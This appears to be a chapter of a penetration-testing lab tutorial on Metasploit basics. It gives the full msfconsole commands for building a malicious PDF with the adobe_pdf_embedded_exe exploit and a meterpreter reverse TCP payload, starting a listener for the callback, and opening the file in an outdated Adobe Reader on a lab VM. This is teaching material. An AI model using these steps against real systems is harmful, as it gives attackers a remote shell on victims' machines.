










# Chapter 1.1 - Metasploit Basics

Log on to your Unbuntu VM with **admin/admin**, open a terminal prompt and start the metasploit console:

```code
msfconsole
```



We're going to create a `malicious PDF` file which contains a meterpreter backdoor that sets up a reverse shell on port 12345. This attack requires an exploit on Adobe PDF, let's have a look which exploits are available within Metasploit to accomplish this.

```code
search type:exploit platform:windows adobe pdf
```



As you can see these are all pretty old exploits, but they will do for our proof on concept. There are numerous or PDF readers (such as Foxit, Slim PDF, Nitro and others). New vulnerabilities come out every day and this shows how important keeping your 3rd party applications up to date is.

For now we're going to continue with **adobe_pdf_embedded_exe**.

```code
use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

We're going to create a simple windows *reverse TCP* payload that will connect back to our Ubuntu server on *Port 12345*. This payload will be embedded into the pdf.

```code
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.18.204
set LPORT 12345
exploit
```



Next step is to set up metasploit to listen to reverse TCP connections on port 12345:



```code
back
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.18.204
set LPORT 12345
run
```

Open a new terminal window on your Ubuntu and copy your "**evil.pdf**" payload to "/temp".

 >**_NOTE:_**  Remember to do this as super user, the root directory requires admin privileges. You can do this by typing "**sudo -i**" and entering your password.



 ```code
 sudo -i
 cd /root/.msfconsole/local/
 ls -la
 cp evil.pdf /temp
 ```

Now let's pivot to our Windows client and download the malicious PDF, we'll be using WinSCP - to transfer our "evil.pdf" from "/temp" to our windows desktop.

> **_NOTE:_**  Create a new Site in WinSCP, File Protocol = SCP, Port Number =22, Username = admin, Password = admin. In the advanced options you can specify the default starting direcotry, put "/temp" there. Save the connection for later use. Connect to the Ubuntu manchine with WinSCP and download "evil.pdf" to your desktop.



Once the file is copied to your desktop, right-click the evil.pfd file and select open with "Adobe Reader 9.0". Remember we are using an old version of adobe that is still vulnerable for this exploit.








